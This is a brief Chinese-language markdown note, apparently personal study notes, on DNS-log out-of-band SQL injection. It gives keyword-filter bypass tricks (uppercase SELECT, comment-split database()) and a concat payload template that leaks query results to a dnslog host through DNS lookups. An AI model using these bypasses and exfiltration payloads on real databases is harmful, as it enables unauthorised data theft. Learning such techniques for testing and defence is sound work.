 ## dnslog注入

> 小技巧 
>
> - 屏蔽`select`时可以尝试大写`SELECT`，屏蔽`database()`时可以尝试`database/**/()`

## `www.dnslog.com`

 - `concat('//',(数据库语句),'.dnslog地址/myjoy')`
